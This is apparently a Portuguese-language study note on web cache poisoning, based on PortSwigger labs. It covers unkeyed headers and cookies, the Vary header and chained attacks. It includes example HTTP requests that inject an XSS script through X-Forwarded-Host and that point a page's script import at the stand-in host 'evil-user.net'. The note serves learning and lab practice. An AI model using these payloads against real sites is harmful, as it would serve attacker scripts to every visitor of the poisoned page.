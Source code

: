 #attack #attack/web #web

O web cache serve para diminuir a carga de trabalho de um servidor, reduzindo o número de requisições duplicadas ao salvar uma cópia de uma resposta no cache. Quando o cache recebe uma requisição HTTP, ele verifica se existe uma resposta que serve para essa requisição através da cache key, formada por componentes do header. Componentes do header que não são inclusos na key são chamados de **unkeyed**.

O web cache poisoning possui três passos:
1. Identificar unkeyed inputs
	1. A extensão **Param Miner** do Burp (BApp Store) automatiza isso mas é importante adicionar a opção para criar um *cache buster* a cada requisição para não prejudicar outros usuários ou o site.
2. Descobrir como obter uma resposta do backend com um payload crítico
3. Garantir que essa resposta seja armazenada em cache

**OBS:** habilitar o *cache buster* do ParamMiner evita da resposta ficar em cache, então após os testes desabilite o ParamMiner para conseguir o `X-Cache: Hit`.
## Explorando falhas de design

As falhas de design são relacionadas a deficiência no projeto de cache, por exemplo, a falta de mecanismos para validar a integridade do conteúdo armazenado em cache.

### [[XSS]]

Esse é a forma mais comum, quando um unkeyed input é refletida na resposta sem sanitização adequada. Por exemplo:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: innocent-website.co.uk 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Neste caso o valor do `X-Forwarded-Host` é usado na url da resposta para gerar uma imagem. Colocando um script em seu lugar:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Neste exemplo, todos usuários que entrar em region=uk vai cair nesse script.

### Importações de recursos inseguros

Semelhante a situação anterior, ao descobrir que `X-Forwarded-Host`  é uma **unkeyed input** um possível teste seria colocar o seu domínio com um js que ao ser importado pela página ele irá executar.

```
GET / HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: evil-user.net

HTTP/1.1 200 OK 
<script src="https://evil-user.net/static/analytics.js"></script>
```

Lab: [[Web cache poisoning - with an unkeyed header]]
### Cookie handling

Há situações que valores que estão no cookie não são usados no cache key, sendo alvo de web cache poisoning

Lab: [[Web cache poisoning - unkeyed cookie]]

### Header Vary

O cabeçalho `Vary` é útil para identificar o que é tratado como **cache key**. É comumente usado para especificar que o `User-Agent` é chaveado para que se a versão mobile de um site for armazenada em cache, isso não será enviado aos usuários da versão web. Ou seja, sabendo disso, um hacker pode adaptar o ataque para que apenas os usuários com esse agente seja afetado.
### [[DOM-Based]] 

Muitos websites usam JS acessar dados de maneira insegura e lançam no HTML.

Lab: [[Web cache poisoning - DOM-based]]

### Encadeando vulnerabilidades

As vezes o invasor só é capaz de provocar uma resposta maliciosa criando uma requisição com vários headers e o mesmo acontece com diferentes tipos de ataque.

Lab: [[Web cache poisoning - Combining vulnerabilities]]

## Explorando falhas de implementação

As falhas de implementação podem surgir de erros de codificação, configurações incorretas ou outras falhas técnicas.

### Unkeyed query string


## Referências
https://portswigger.net/web-security/web-cache-poisoning